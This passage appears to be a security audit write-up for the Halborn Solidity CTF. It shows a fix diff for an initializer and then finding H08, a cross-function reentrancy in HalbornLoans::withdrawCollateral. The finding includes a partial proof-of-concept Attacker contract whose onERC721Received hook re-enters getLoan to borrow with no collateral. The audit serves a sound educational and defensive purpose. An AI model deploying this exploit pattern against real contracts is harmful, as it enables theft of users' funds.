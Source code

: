 function initialize(address token_, address nft_, uint256 collateralPrice_) public initializer {
    __UUPSUpgradeable_init();
+   __Ownable_init();
    __Multicall_init();

    token = HalbornToken(token_);
    nft = HalbornNFT(nft_);
    
+  setCollateralPrice(collateralPrice_);
}


+ function setCollateralPrice(uint256 collateralPrice_) public onlyOwner {
+    require(collateralPrice_ != 0, "Price cannot be 0");
+    collateralPrice = collateralPrice_;
+ }



H08 : HalbornLoans::withdrawCollateral does not respect the CEI pattern - potential loss of funds due to cross-function reentrancy

Risk: High 

Links: https://github.com/HalbornSecurity/CTFs/blob/e0e91e535617f9ed3bfeb5db740e7c9782dca1ee/HalbornCTF_Solidity_Ethereum/src/HalbornLoans.sol#L54C9-L55C21
 

Description:


The withdrawCollateral function does not follow the Check-Effects-Interactions (CEI) pattern, making the contract vulnerable to reentrancy attacks. It performs a call to safeTransferFrom on an ERC721 token, which can trigger reentrancy through the onERC721Received hook.

If the target address of the safeTransferFrom call is a smart contract, the onERC721Received function will be called on that contract. An attacker could exploit this to reenter the contract and call the getLoan function, allowing them to take out a loan with zero collateral remaining.


POC:

Add the following attacker contract:

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {IERC721Receiver} from "openzeppelin-contracts/contracts/token/ERC721/IERC721Receiver.sol";

interface IHalbornLoans {
    function getLoan(uint256 amount) external;
}

contract Attacker is IERC721Receiver {
    address public loans;

    constructor(address loans_) {
        loans = loans_;
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external override returns (bytes4) {
        if (from == loans) {
            //the loans contract is sending our NFT => reenter and cal getLoan
            IHalbornLoans(loans).getLoan(2 ether);
        }
